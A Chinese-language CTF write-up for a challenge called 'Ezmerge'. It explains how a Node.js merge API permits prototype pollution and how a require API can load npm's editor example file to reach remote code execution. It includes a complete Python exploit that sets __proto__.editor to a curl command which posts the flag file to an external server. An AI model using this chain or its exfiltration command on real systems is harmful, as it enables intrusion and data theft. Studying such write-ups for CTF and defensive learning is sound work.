 # Ezmerge wp

阅读index.js,发现merge api,与require api

merge api 明显可用于原型链污染，但此题无法模板注入。所以想rce还需要配合其他方法。

require api用于加载node任意模块，是否有一个模块，只要加载便可以rce呢？分析源码或网络搜索。可以发现`/usr/local/lib/node_modules/npm/node_modules/editor/example/edit.js`中

```js
var editor = require('../');
editor(__dirname + '/beep.json', function (code, sig) {
    console.log('finished editing with code ' + code);
});

```

自动包含了其上一模块。

```js
var spawn = require('child_process').spawn;

module.exports = function (file, opts, cb) {
    if (typeof opts === 'function') {
        cb = opts;
        opts = {};
    }
    if (!opts) opts = {};
    
    var ed = /^win/.test(process.platform) ? 'notepad' : 'vim';
    var editor = opts.editor || process.env.VISUAL || process.env.EDITOR || ed;
    var args = editor.split(/\s+/);
    var bin = args.shift();
    
    var ps = spawn(bin, args.concat([ file ]), { stdio: 'inherit' });
    
    ps.on('exit', function (code, sig) {
        if (typeof cb === 'function') cb(code, sig)
    });
};

```

其中将`opts.editor`作为命令执行。与原型链污染配合，可以rce。

完整payload

```python
import requests
url="http://127.0.0.1:3000"
json={
    "merge1":{"1":"a"},
    "merge2": {
        "__proto__": {
            "editor": "curl -d @/flag vps" 
        }
    }
}
print(requests.post(url+'/api/merge',json=json).text)
print(requests.post(url+'/api/require',data={'requirethis':'/usr/local/lib/node_modules/npm/node_modules/editor/example/edit.js'}).text)
```

